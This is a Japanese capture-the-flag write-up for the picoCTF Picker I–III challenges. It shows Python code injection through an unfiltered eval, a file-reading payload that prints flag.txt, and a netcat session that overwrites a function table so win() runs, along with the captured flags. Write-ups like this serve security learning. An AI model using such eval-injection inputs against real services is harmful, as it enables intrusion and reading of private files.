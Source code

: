### Picker I

入力した関数を実行してくれるインスタンスが動いている．
win() を実行すると flag.txt を展開してくれるので，これを文字列に直せばいい

### Picker II

こんどは入力がフィルタされていて，「win」 が打てなくなっている．
一方で，main の eval はそのままなので，exec のようにコマンドインジェクションが通る．

```shell
==> print(open('flag.txt', 'r').read())
picoCTF{f1l73r5_f41l_c0d3_r3f4c70r_m1gh7_5ucc33d_95d44590}
'NoneType' object is not callable
```

### Picker III

必ず呼び出される ```call_func()``` 関数の最後に ```eval(func_name+'()')``` があるのでこれを利用する．

```python
def get_func(n):
  global func_table

  # Check table for viability
  if( not check_table() ):
    print(CORRUPT_MESSAGE)
    return

  # Get function name from table
  func_name = ''
  func_name_offset = n * FUNC_TABLE_ENTRY_SIZE
  for i in range(func_name_offset, func_name_offset+FUNC_TABLE_ENTRY_SIZE):
    if( func_table[i] == ' '):
      func_name = func_table[func_name_offset:i]
      break

  if( func_name == '' ):
    func_name = func_table[func_name_offset:func_name_offset+FUNC_TABLE_ENTRY_SIZE]
  
  return func_name
```

func_name が win になればいい

func_table を参照しているので，書き換えたい．

```shell
┌──(kali㉿kali)-[~/CTF]
└─$ nc saturn.picoctf.net 51363
==> 3
Please enter variable name to write: func_table
Please enter new value of variable: 'win                     read_variable                   write_variable                               '
==> 1
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x37 0x68 0x31 0x35 0x5f 0x31 0x35 0x5f 0x77 0x68 0x34 0x37 0x5f 0x77 0x33 07 0x31 0x37 0x68 0x5f 0x75 0x35 0x33 0x72 0x35 0x5f 0x31 0x6e 0x5f 0x63 0x68 0x34 0x72 0x67 0x33 0x5f 0x32 0x32 0x36 0x7d 
==>           
```
